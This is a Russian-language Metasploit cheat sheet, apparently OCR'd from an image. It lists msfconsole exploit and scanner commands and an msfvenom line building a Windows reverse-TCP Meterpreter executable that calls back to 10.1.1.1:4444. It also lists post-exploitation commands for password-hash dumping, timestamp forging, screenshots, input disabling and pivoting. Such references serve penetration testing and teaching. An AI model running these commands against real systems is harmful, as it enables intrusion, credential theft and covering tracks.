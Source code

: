 #### Metasploit:
Поиск модуля:
* msf > search [regex]
Укажите и используйте эксплойт:

* msf > use exploit/[ExploitPath]
Укажите полезную нагрузку для использования:

* msf > set PAYLOAD [PayloadPath]
Показать параметры для текущих модулей:

* msf > show options
Установить параметры:

* msf > set [Option] [Value]
Запустить эксплойт:

* msf > exploit 
Полезные вспомогательные модули
Сканер портов:

* msf > use auxiliary/scanner/portscan/tcp
* msf > set RHOSTS 10.10.10.0/24
* msf > run
Перечисление DNS:

* msf > use auxiliary/gather/dns_enum
* msf > set DOMAIN target.tgt
* msf > run
FTP Сервер:

* msf > use auxiliary/server/ftp
* msf > set FTPROOT /tmp/ftproot
* msf > run
Proxy Сервер:

* msf > use auxiliary/server/socks4
* msf > run 
* msfvenom :

#### Инструмент msfvenom можно использовать для генерации полезных нагрузок Metasploit (например, Meterpreter) в виде отдельных файлов и, при необходимости, для их кодирования.
Этот инструмент заменяет прежние инструменты msfpayload и msfencode.

Запустите с ‘-l payloads’, чтобы получить список полезных нагрузок.

* $ msfvenom –p [PayloadPath]
–f [FormatType]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]
Пример :

Полезная нагрузка Reverse Meterpreter в виде исполняемого файла и перенаправленная в файл:

* $ msfvenom -p windows/meterpreter/
reverse_tcp -f exe LHOST=10.1.1.1
LPORT=4444 > met.exe
Metasploit Meterpreter
Базовые команды:

* ? / help: вывод сводной информации о командах
* exit / quit: выход из сеанса Meterpreter
* sysinfo: показать имя системы и тип ОС
* shutdown / reboo: не требует пояснений
Команды файловой системы:
* cd: изменить каталог
* lcd: Изменить каталог на локальном (атакующем) компьютере
* pwd / getwd: Показать текущий рабочий каталог
* ls: показать содержимое каталога
* cat: отображать содержимое файла на экране
* download / upload: перемещение файлов на / с целевого компьютера
* mkdir / rmdir: создать / удалить каталог
* edit: открыть файл в редакторе по умолчанию (обычно vi)
Команды процесса:
* getpid: Показать идентификатор процесса, внутри которого работает Meterpreter.
* getuid: Показать идентификатор пользователя, с которым работает Meterpreter.
* ps: Показать список процессов.
* kill: завершить процесс по его идентификатору.
* execute: запустить заданную программу с правами процесса, в который загружен Meterpreter.
* migrate: переход к указанному идентификатору процесса назначения:
Целевой процесс должен иметь такие же или меньшие привилегии
Целевой процесс может быть более стабильным
Находясь внутри процесса, может получить доступ к любым файлам, для которых процесс заблокирован
Сетевые команды:

* ipconfig: Показать информацию о сетевом интерфейсе
* portfwd: пересылка пакетов через сеанс TCP
* route: управление / просмотр таблицы маршрутизации системы
Разные команды:

* idletime: отображение времени, в течение которого GUI целевой машины простаивал.
* uictl [enable/disable] [keyboard/mouse]: включить / отключить мышь или клавиатуру целевой машины.
* screenshot: Сохранить как изображение снимок экрана целевой машины.
 

Дополнительные модули:

* use [module]: загрузить указанный модуль
Пример:
* use priv: загрузить модуль priv

* hashdump: сбросить хэши из коробки
* timestomp: Изменить временные метки файла NTFS
Управление сессиями

Многократная эксплуатация:

Запустите эксплойт, ожидая одну сессию, которая сразу же станет фоновой:

* msf > exploit -z
Запустите эксплойт в фоновом режиме, ожидая одну или несколько сессий, которые сразу же станут фоновыми:

* msf > exploit –j
Перечислите все текущие задания (обычно используют слушателей):

* msf > jobs –l
Убить задание

* msf > jobs –k [JobID]
Несколько сессий:

Перечислите все фоновые сессии:

* msf > sessions -l
Взаимодействовать с фоновым сеансом:

* msf > session -i [SessionID]
Предыстория текущего интерактивного сеанса:

meterpreter > <Ctrl+Z>
или
meterpreter > background
Маршрутизация через сессии:

Все модули (эксплойты / post / aux) против целевой маски подсети будут поворачиваться в течение этого сеанса.

* msf > route add [Subnet to Route To]
[Subnet Netmask] [SessionID]
